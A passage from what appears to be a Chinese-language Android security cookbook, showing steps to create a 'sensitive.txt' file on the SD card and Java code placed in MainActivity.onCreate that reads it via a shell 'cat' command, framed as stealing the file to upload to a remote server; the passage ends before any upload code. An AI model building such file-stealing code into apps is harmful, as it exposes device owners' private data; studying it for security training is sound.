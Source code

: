 1.  验证文件是否已创建：

    ```
    **cat /sdcard/sensitive.txt**

    ```

    ![如何做...](img/image_02_016.jpg)

现在我们已经准备好敏感文件，让我们编写代码来窃取该文件并将其上传到服务器。按照前面的食谱步骤创建一个新项目并打开基本项目窗口，然后执行以下步骤：

1.  我们现在将添加代码来读取`sensitive.txt`并将其数据上传到远程服务器。

1.  在左侧窗口中，导航到并打开`MainActivity.java`文件，路径为`app** | **java** | **com."your_package_name"** | **MainActivity`。

1.  将以下代码添加到`protected void onCreate(Bundle savedInstanceState)`函数内，`setContentView(R.layout.activity_main);`行下方：

    ```
    FileInputStream in; 
      BufferedInputStream buf; 

      Intent intent = getIntent(); 
      Bundle extras = intent.getExtras(); 

      StringBuffer sb = new StringBuffer(""); 
      String line = ""; 
      String NL = System.getProperty("line.separator"); 
      String str = "cat /mnt/sdcard/sensitive.txt"; 

      Process process = null; 
      try { 
        process = Runtime.getRuntime().exec(str); 
      } catch (IOException e) { 
         throw new RuntimeException(e); 
      } 

     BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream())); 

      int read; 
      char[] buffer = new char[4096]; 
      StringBuffer output = new StringBuffer(); 
      try { 
        while ((read = reader.read(buffer)) > 0) { 
          output.append(buffer, 0, read); 
        } 
      } catch (IOException e) { 
        throw new RuntimeException(e); 
      } 

      try { 
        reader.close(); 
      } catch (IOException e) { 
         throw new RuntimeException(e); 
      } 
      try { 
        process.waitFor(); 
      } catch (InterruptedException e) { 
